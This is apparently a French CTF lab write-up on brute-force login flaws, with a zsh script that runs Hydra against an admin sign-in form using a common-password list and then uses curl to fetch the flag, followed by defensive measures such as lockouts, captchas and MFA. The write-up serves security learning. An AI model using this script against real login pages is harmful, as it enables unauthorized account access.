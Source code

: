 # Faille de brute force

## Qu'est-ce qu'une faille de brute force ?

Une faille de brute force se produit lorsqu'un attaquant tente systématiquement toutes les combinaisons possibles d'identifiants (ou mots de passe) pour accéder à un système sécurisé. Il s'agit d'une méthode très simple, mais potentiellement efficace, qui repose sur le fait de tester un grand nombre de mots de passe ou de clés jusqu'à ce que l'attaquant trouve la bonne combinaison. Cette méthode peut être particulièrement efficace si le mot de passe est simple, commun ou facilement devinable.

Les outils d'attaque par force brute automatisent ce processus, permettant à l'attaquant de tester des milliers, voire des millions, de combinaisons en très peu de temps.

## Comment j'ai exploité cette faille ?

J'ai utilisé un script pour réaliser une attaque par force brute sur un serveur web, en combinant l'outil **Hydra** pour automatiser la tentative de connexion, et l'outil **Curl** pour vérifier la réponse du serveur. Voici le script que j'ai utilisé :

```bash
#!/bin/zsh

echo "Script de brutforce\n\nDonne l'IP stp :"

read  IP_DARKLY

if [ -z $IP_DARKLY ]; then
    echo "Donne l'IP j'ai dit !"
    exit 1
fi

# Exécution de Hydra pour essayer différents mots de passe
hydra -l admin -P 10000-most-common-passwords.txt -F -V "$IP_DARKLY" http-get-form '/index.php:page=signin&username=^USER^&password=^PASS^&Login=Login:F=images/WrongAnswer.gif'

echo "\n\nDonne le mot de passe qu'on test ca :"

read PASSWORD

# Utilisation de curl pour vérifier si le mot de passe est correct et récupérer le flag
curl "http://$IP_DARKLY/index.php?page=signin&username=admin&password=$PASSWORD&Login=Login#" | grep flag | awk -F': | <' '{print "\nThe flag => "$2}'
```

### Explication du Script

1. **Hydra** : Utilisé pour essayer une liste de 10 000 mots de passe communs afin de casser le mot de passe de l'utilisateur "admin" sur la page de connexion du serveur.
2. **Curl** : Après avoir récupéré le mot de passe, j'ai utilisé `curl` pour envoyer une requête HTTP au serveur avec le mot de passe trouvé et rechercher un **flag** dans la réponse de la page.
3. **awk et grep** : Ces outils permettent d'extraire le flag trouvé sur la page si le mot de passe est correct.

## Solution pour contrer les attaques par force brute

### 1. **Randomiser le délai de réponse**

L'une des solutions les plus efficaces contre une attaque par force brute est d'ajouter un **délai de réponse** aléatoire. Actuellement, le serveur que j'attaque met un délai de 2 secondes si le mot de passe est incorrect. Un attaquant peut s'attendre à ce délai et ajuster son attaque en conséquence.

Pour contrer cela, on peut introduire une variabilité dans le délai de réponse (par exemple entre 1 et 5 secondes), rendant beaucoup plus difficile pour un attaquant d'estimer la durée exacte et donc de mener une attaque efficace. Cela introduit une incertitude dans le processus d'attaque, ralentissant potentiellement les tentatives de force brute.

### 2. **Bloquer ou limiter les tentatives de connexion**

- **Verrouillage temporaire** : Après un certain nombre de tentatives de connexion échouées, verrouiller temporairement le compte pour une durée spécifique (par exemple 15 minutes).
- **Captchas** : Demander à l'utilisateur de résoudre un captcha après un nombre défini de tentatives échouées peut également décourager les attaques automatisées.

### 3. **Utilisation de mots de passe forts**

Une bonne défense contre les attaques de force brute est d'encourager (ou d'imposer) l'utilisation de mots de passe longs et complexes. Cela augmente considérablement le temps nécessaire pour que l'attaquant devine le mot de passe, même en utilisant des outils automatisés.

### 4. **Utilisation de l'authentification multi-facteurs (MFA)**

L'authentification multi-facteurs est une méthode très efficace pour empêcher les attaques de force brute. Même si un attaquant parvient à casser le mot de passe, il lui faudra également un second facteur (comme un code envoyé par SMS ou une application d'authentification), ce qui rend l'attaque beaucoup plus difficile.
